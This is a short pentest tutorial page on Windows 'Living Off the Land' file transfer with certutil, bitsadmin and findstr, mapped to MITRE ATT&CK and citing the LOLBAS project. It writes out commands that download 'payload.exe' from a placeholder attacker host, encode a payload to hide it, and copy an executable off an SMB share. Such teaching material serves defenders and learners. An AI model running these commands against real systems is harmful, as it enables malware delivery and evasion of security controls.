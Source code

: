 # File Operations

## Theory

Here, we will show commonly used tools used by "Living Off the Land" techniques about file operations including download, upload, and encoding. This techniques are covered by the [LOLBAS project](https://lolbas-project.github.io)

## Practice

{% tabs %}
{% tab title="Certutil.exe" %}
Certutil is a Windows built-in utility for handling certification services. It is used to dump and display Certification Authority (CA) configuration information and other CA components. However, people found that certutil.exe could transfer and encode files unrelated to certification services.

```bash
#Dowload a file
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe

#Encode a file
certutil -encode payload.exe Encoded-payload.txt
```

The MITRE ATT\&CK framework identifies this techniques as [Ingress tool transfer (T1105)](https://attack.mitre.org/techniques/T1105/) and [Obfuscated Files or Information (T1027)](https://attack.mitre.org/techniques/T1027/)
{% endtab %}

{% tab title="BITSAdmin.exe" %}
The bitsadmin tool is a system administrator utility that can be used to create, download or upload Background Intelligent Transfer Service (BITS) jobs and check their progress. [BITS](https://learn.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) is a low-bandwidth and asynchronous method to download and upload files from HTTP webservers and SMB servers. Additional information about the bitsadmin tool can be found at [Microsoft Docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin).

```bash
#Dowload a file and execute
bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\Pwned\Desktop\payload.exe
```

The MITRE ATT\&CK framework identifies this technique as [BITS Job (T1197)](https://attack.mitre.org/techniques/T1197/)
{% endtab %}

{% tab title="FindStr.exe" %}
[Findstr](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr) is a Microsoft built-in tool used to find text and string patterns in files. The findstr tool is useful in that helps users and system administrators to search within files or parsed output. However, an unintended way was found by using findstr.exe to download remote files from SMB shared folders within the network as follows,

```bash
#Dowload a file
findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe
```

he MITRE ATT\&CK framework identifies this technique as [Ingress tool transfer (T1105)](https://attack.mitre.org/techniques/T1105/)
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
Note that other tools can be used for file operations. We suggest visiting the [LOLBAS](https://lolbas-project.github.io/)[ ](https://lolbas-project.github.io/)project to check them out.
{% endhint %}

## References

{% embed url="https://tryhackme.com/room/livingofftheland" %}

{% embed url="https://lolbas-project.github.io/#" %}
